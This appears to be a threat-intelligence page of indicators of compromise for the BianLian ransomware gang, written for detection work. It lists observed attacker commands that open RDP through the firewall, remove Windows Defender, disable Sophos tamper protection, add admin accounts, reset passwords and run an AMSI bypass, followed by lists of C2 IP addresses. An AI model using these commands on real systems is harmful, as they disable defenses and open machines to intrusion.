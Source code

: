 # \[Redacted IOCs\]
[Redacted blog](https://redacted.com/blog/bianlian-ransomware-gang-gives-it-a-go/?utm_source=Internal%20Referrals&utm_campaign=BianLian)

### svchost spawned from parent process that is not services.exe
### svchost spawned from unusual path

### Netsh usage
> `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

> `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

### Disabling Defender
>   `"C:\Windows\system32\Dism.exe" /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart`

### Adding local user account 
> `"C:\Windows\system32\net.exe" localgroup "Remote Desktop Users" <similar name to existing admin> /add`

>   `"C:\Windows\system32\net.exe" user <legitimate admin account> 3gDZNxtsQ9G029k7D6Ljxe /domain`

### Enabling Remote Desktop Connection
>   `"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes`

>   `"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /* v fAllowToGetHelp /t REG_DWORD /d 1 /f`

>   `"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal * Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

### Disabling Sophos
> `"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SAVEnabled /d 0 /f`

  >`"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SEDEnabled /d 0 /f`

>`"C:\Windows\system32\reg.exe" ADD * HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Sophos\SAVService\TamperProtection /t REG_DWORD /v Enabled /d 0 /* f`

### Enabling TightVNC in Safe Mode
> `"C:\Windows\system32\reg.exe" copy hklm\system\CurrentControlSet\services\tvnserver * hklm\system\CurrentControlSet\control\safeboot\network\tvnserver /s /f`

>`\cmd.exe /Q /c net user "Administrator" /active:yes 1> \\127.0.0.1\C$\Windows\Temp\abjAlC 2>&1`

### Password Change to the local administrator account, output to file
> `cmd.exe /Q /c net user "Administrator" ChangeMe2morrow! 1> \\127.0.0.1\C$\Windows\Temp\OxNEcz 2>&1`

### Running the quser command and saving output to file
 > `cmd.exe /Q /c quser 1> \\127.0.0.1\C$\Windows\Temp\VXPrvY 2>&1`
 
### Ping only once 
 > `"C:\Windows\system32\PING.EXE" -4 -n 1 *`
 
### Powershell AMSI Bypass [more info](https://blog.xpnsec.com/exploring-powershell-amsi-and-logging-evasion/)
>`[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,* Static’).SetValue($null,$true)`

### C2 IP Addresses 
> Current
`("104.225.129.86","104.238.223.10","104.238.223.3","109.248.6.207","13.49.57.110","144.208.127.119","146.0.79.9","157.245.80.66","16.162.137.220","165.22.87.199","172.93.96.61","172.93.96.62","18.130.242.71","185.108.129.242","185.225.69.173","185.56.80.28","185.62.58.151","185.69.53.38","192.145.38.242","192.161.48.43","192.169.6.232","37.235.54.81","45.9.150.132","5.2.79.138","51.68.190.20","54.173.59.51","62.84.112.68","64.52.80.120","66.135.0.42","83.136.180.12","85.13.117.213","85.13.117.218","91.199.209.20","95.179.137.20")
> 

> Historical IPs
`("104.207.155.133","104.238.61.153","146.70.44.248","155.94.160.241","167.88.15.98","172.96.137.107","188.166.81.141","194.26.29.131","194.5.212.205","194.58.119.159","198.252.108.34","202.66.72.7","208.123.119.145","209.141.54.205","23.227.198.243","23.94.56.154","43.155.116.250","45.144.30.139","45.92.156.105","5.188.6.118","5.230.67.2","85.13.116.194","85.13.117.219","89.22.224.3")`
